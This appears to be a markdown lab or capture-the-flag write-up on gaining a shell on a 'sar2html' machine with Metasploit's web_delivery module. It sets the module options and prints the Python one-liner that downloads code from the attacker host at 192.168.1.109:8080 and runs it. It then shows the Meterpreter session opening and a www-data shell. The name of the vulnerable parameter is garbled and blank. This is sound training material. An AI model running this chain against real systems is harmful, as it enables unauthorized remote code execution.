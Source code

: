 ## 📝 Parallel Way to Gain Access to sar2html Machine (`192.168.1.107`)

### ✅ **Summary**

This method leverages a Python reverse shell using Metasploit’s `web_delivery` module, bypassing manual payload crafting and achieving a `Meterpreter` shell.

---

### 📌 **Steps Taken**

#### 1. **Selected the Exploit Module**

```bash
use exploit/multi/script/web_delivery
```

#### 2. **Set Required Options**

```bash
set LHOST 192.168.1.109          # Attacker IP
set SRVHOST 192.168.1.109        # Host to serve payload
set SRVPORT 8080                 # Default HTTP port
```

#### 3. **Payload in Use**

```bash
python/meterpreter/reverse_tcp
set LPORT 4444                   # Listener port for reverse shell
```

---

### ▶️ **Ran the Exploit**

```bash
run
```

Metasploit provided a payload URL:

```
http://192.168.1.109:8080/rVGzSFxL8P
```

Metasploit auto-generated a Python command:

```python
python -c "import sys;import ssl;u=__import__('urllib'+{2:'',3:'.request'}[sys.version_info[0]],fromlist=('urlopen',));r=u.urlopen('http://192.168.1.109:8080/rVGzSFxL8P', context=ssl._create_unverified_context());exec(r.read());"
```

---

### 💻 **Executed Python Payload on Target**

Used the above one-liner on the target machine (`sar2html`) — possibly via **vulnerable **``** parameter** or another RCE entry point.

---

### 🎯 **Gained Access**

Metasploit output:

```
[*] Meterpreter session 1 opened (192.168.1.109:4444 -> 192.168.1.107:39376)
```

Confirmed access:

```bash
sessions -i 1
meterpreter > shell
```

System access:

```bash
whoami
> www-data
```

---
